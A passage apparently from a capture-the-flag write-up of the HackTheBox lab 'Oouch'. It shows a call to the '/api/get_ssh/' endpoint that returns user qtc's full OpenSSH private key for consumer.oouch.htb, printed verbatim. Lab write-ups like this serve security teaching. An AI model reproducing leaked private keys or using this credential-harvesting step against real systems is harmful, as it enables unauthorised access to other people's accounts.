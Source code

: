 ![web_result](images/Oouch11.png)

Now grab qtc token with get_ssh api.

```
/api/get_ssh/
```

```
{"ssh_server": "consumer.oouch.htb", "ssh_user": "qtc", "ssh_key": "-----BEGIN OPENSSH PRIVATE KEY-----\n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\n-----END OPENSSH PRIVATE KEY-----"}
```
